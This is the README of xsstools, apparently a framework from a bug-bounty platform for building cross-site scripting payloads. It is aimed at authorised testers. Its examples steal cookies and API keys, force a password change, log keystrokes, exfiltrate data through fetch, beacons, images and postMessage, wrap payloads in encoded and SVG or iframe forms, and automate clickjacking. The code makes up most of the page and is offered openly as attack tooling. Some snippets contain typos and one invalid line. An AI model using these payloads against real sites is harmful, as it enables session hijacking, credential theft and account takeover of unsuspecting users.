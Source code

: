 # xsstools

xsstools is an xss development frameworks, with the goal of making payload writing easier.


```html
<script type="module">
import {Exfiltrators, Payload, Wrapper, utils} from "./xsstools.min.js"

const exfiltrator = Exfiltrators.message()
const payload = Payload.new()
    .addExfiltrator(exfiltrator)
    .eval(() => document.cookie)
    .exfiltrate()
    .fetchDOM("/user/me")
    .querySelector("input[name='apikey']", 'value')
    .exfiltrate()
    .postUrlEncoded("/user/changePassword", {"password": "hacked"})


const wrapper = Wrapper.new()
    .evalB64()
    .svgLoad()
    .iframe()


const exploit = wrapper.wrap(payload)

const target = "http://vulnerable.domain", {"vulnerableParam": exploit}

window.open(target)
</script>
```

## Exfiltrators

A collection of exfiltrators is available 

* message: use postMessage
* get: use fetch GET
* post: use fetch POST urlencoded
* postJSON: use fetch POST json encoded
* sendBeacon: use navigator.sendBeacon
* console: for debugging, simply use console.log
* img: create an img tag to exfiltrate via GET
* style: create a style tag to exfiltrate via GET
* iframe: create an iframe tag to exfiltrate via GET

[https://yeswehack.github.io/xsstools/Exfiltrators.html](https://yeswehack.github.io/xsstools/Exfiltrators.html)


## Payload

Use the payload generator to quickly create powerfull payloads

```javascript
const Payload.new()
    .addExfiltrator(exfiltrator)
    .startKeyLogger()
    .fetchJSON("/api/user/me")
    .eval(r => r.email)
    .exfiltrate()
```
[https://yeswehack.github.io/xsstools/Payload.html](https://yeswehack.github.io/xsstools/Payload.html)


## Wrapper

Wrap your payload using one of the many available wrappers without worrying about encoding.

```javascript

const wapper = Wrapper.new()
    .minify()
    .templateString()
    .imgLoad()
    .innerHTML()
    .script()
    .iframe()


const payload = wrapper.wrap("alert(1)")
consoloe.log(payload)
```

[https://yeswehack.github.io/xsstools/Wrapper.html](https://yeswehack.github.io/xsstools/Wrapper.html)


## ClickJacker

Writing clickjacking code can be tedious, with xss tools you only need to supply the position of the targeted element.

```javascript
const cj = new ClickJacker(url)

cj.addStep({x: 42, y: 34, width: 64, height: 35})

await cj.run()
```


[https://yeswehack.github.io/xsstools/ClickJacker.html](https://yeswehack.github.io/xsstools/ClickJacker.html)


You can find the bounding box interactively using this code
```javascript 
(()=>{function e(e){e.classList.remove(o),l?e.onclick=l:c.removeEventListener("click",n)}function t({clientX:t,clientY:i}){const d=document.elementFromPoint(t,i);d!=c&&(d.classList.add(o),c&&e(c),d.onclick?(l=d.onclick,d.onclick=n):(l=null,d.addEventListener("click",n,{once:!0})),c=d)}function n(n){n.preventDefault(),n.stopPropagation();let{x:o,y:i,height:c,width:l}=n.target.getBoundingClientRect();[o,i,c,l]=[o,i,c,l].map(e=>+e.toFixed(2)),window.prompt("Bounding box",JSON.stringify({x:o,y:i,height:c,width:l})),e(n.target),window.removeEventListener("mousemove",t)}const o="xxx-selected",i=document.createElement("style");i.innerText=`.${o} {box-shadow: 0 0 0 1px red inset, 0 0 0 1px red;}`;let c=null,l=null;window.addEventListener("mousemove",t),document.body.appendChild(i)})();
```

# Documentation

You can read the documentation here:
[https://yeswehack.github.io/xsstools](https://yeswehack.github.io/xsstools)

Or generate it locally using `yarn docs`



# Example

A more complete example with a simple template page is available in /example


# Tests

If you want to know which payload is compatible with your targeted browser you can run the test suite in /test.


